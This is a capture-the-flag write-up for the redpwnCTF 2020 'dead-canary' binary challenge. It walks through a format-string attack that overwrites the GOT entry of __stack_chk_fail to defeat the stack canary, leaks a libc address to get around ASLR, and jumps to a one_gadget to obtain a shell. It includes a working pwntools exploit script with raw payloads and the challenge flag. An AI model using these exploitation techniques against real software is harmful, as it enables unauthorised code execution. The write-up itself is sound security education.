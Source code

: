 ```yaml
---
layout: post
title: "dead-canary"
author: "raghul-rajasekar"
---
```


It is a terrible crime to slay a canary. Killing a canary will keep your exploit alive even if you are an inch from segfaults. But at a terrible price.
`nc 2020.redpwnc.tf 31744`

**Files:**
- [dead-canary]({{site.baseurl}}/assets/dead-canary/dead-canary)

# Solution

Let's take a look at the disassembly of `dead-canary` using IDA:

![secret-flag disassembly]({{site.baseurl}}/assets/dead-canary/dead-canary.png)

Seems similar to `secret-flag`: canary-enabled, program reads input once and prints it back using `printf`, creating a format-string vulnerability. The only difference here is that the flag isn't read into memory: we'll have to create a reverse shell to access the flag. This is a lot harder than `secret-flag` because we'll now have to write over addresses and that means having to deal with the canary. Or does it?

## Writing using format-string vulnerability
Format-string vulnerabilities are very useful to launch an attack because they not only let us read from any address, they also let us _write_ to any address using the `%n` format specifier. Given an address as an argument, it stores a 4-byte value equal to the number of characters printed by `printf` before `%n`. For us, it's a hack allowing us to load an address onto the stack as an argument and write values to that address. `%hn` gives us more fine-grained control by letting us write 2 bytes at a time. However, the fact stands that for whatever value we want to write, that many characters must be printed. To avoid filling up the buffer unnecessarily, we can use the _padding_ feature of format specifiers. For example, `%20d` prints an integer with suitable padding such that 20 characters are printed. Using these facts and the fact that we can give some address in the buffer and use the `%x$n` to write to that address (after suitably calculating `x`), we can now theoretically overwrite any value in memory.

## Need for `one_gadget`
Before we get to how we're going to bypass the canary check, it's important to note that the `read` instruction in the `dead-canary` binary only allows us to overwrite the canary value, previous frame's base address (which isn't important anyway) and the return address using buffer overflow. Also, we won't be able to overwrite values on the stack as ASLR would be enabled and we wouldn't know the stack addresses beforehand, meaning that we can only rely on buffer overflow to overwrite stack values. This means we won't be able to stitch gadgets on the stack and will have to rely on `one_gadget` to provide us with a single address which we can jump to and execute to open a shell.

I went ahead assuming the `libc` file is the same as the one provided for the previous question, `the-library` (luckily I was right). Out of the three gadgets found, two of them relied on certain sections of the stack being zeroed out, which is hard to ensure. The gadget I chose, located at offset `0x4f2c5` in `libc`, required that the stack is aligned to 16 bytes and `rcx` is zeroed out. The second constraint is harder to satisfy as the canary check uses the `rcx` register. The check loads the canary value from the stack into `rcx`, XORs `rcx` with the stored canary value and calls `__stack_chk_fail` if `rcx` is not 0, which aborts the program. Thus, to create a reverse shell, we will have to "gracefully" bypass the canary check, ensuring that `rcx` is set to 0 as well. How do we do that?

## Bypassing canary check by overwriting GOT
To achieve this, we can first use the idea of overwriting values using `printf` to overwrite the GOT entry for `__stack_chk_fail`, making it jump elsewhere instead of aborting the program. However, we can't directly jump to the gadget due to ASLR. We will have to find the offset of `libc`, return back to the beginning of `main`, calculate the offset at which the gadget would be located in memory and overwrite the return address with this value using buffer overflow.

To ensure that `rcx` is set to 0, we can overwrite the GOT entry for `__stack_chk_fail` (located at `0x601028`) to make it point to the instruction where `rcx` is XORed with the actual canary value (`xor rcx, fs:28h` at `0x4007ea`), meaning that `rcx` eventually gets XORed twice with the value and finally holds the canary value from the stack. If we set this stack canary value to 0, the canary check will be passed and `rcx` would hold 0, which is what we want. Thus, we can freely perform buffer overflow afterwards while simply ensuring that the stack canary value is set to 0 each time.

## Bypassing ASLR
Finally, we need to find some known address from `libc` in order to calculate the offset at which it's loaded. We can use the GOT entry for `setbuf` for this (located at `0x601030`). We know that `setbuf` is located at an offset of `0x884d0` within `libc`, so we can calculate the new offset of the gadget using this.

To find the value of the GOT entry itself, we can use the `%s` format specifier. Thus, the overall idea is to send two payloads. The first payload achieves the following:
- Overwrites the GOT entry of `__stack_chk_fail` to `0x4007ea`
- Leaks the GOT entry of `setbuf`
- Sets stack canary value to 0
- Overwrites return value to beginning of `main` (at `0x400738`)

The second payload achieves the following:
- Sets stack canary value to 0
- Jumps to our gadget

The code below roughly illustrates the attack:

```python
from pwn import remote
p = remote('2020.redpwnc.tf', 31744)
payload0 = b'%10$s%2020d%9$hn\x00\x00\x00\x00\x00\x00\x00\x00\x28\x10\x60\x00\x00\x00\x00\x00\x30\x10\x60\x00\x00\x00\x00\x00' + b'abcd'*56 + b'\x00\x00\x00\x00\x00\x00\x00\x00abcdabcd\x38\x07\x40\x00\x00\x00\x00\x00'  # Find GOT table entry of setbuf, print appropriate number of spaces and overwrite GOT entry of __stack_chk_fail with location of instruction which XORs canary with rcx, JUNK, make sure location of canary is zeroed out, return to start of main
p.read()
p.write(payload0)
ret = p.read()
hex(int(ret[11:5:-1].hex(), 16) - int('884d0', 16) + int('4f2c5', 16))
payload1 = b'abcd'*66 + b'\x00\x00\x00\x00\x00\x00\x00\x00abcdabcd\xc5\xe2\xa7\xc7\x2f\x7f\x00\x00'  # Ended up calculating the gadget address manually
p.write(payload1)
p.interactive()  # do whatever you want with shell here
```

# Flag

`flag{t0_k1ll_a_canary_4e47da34}`
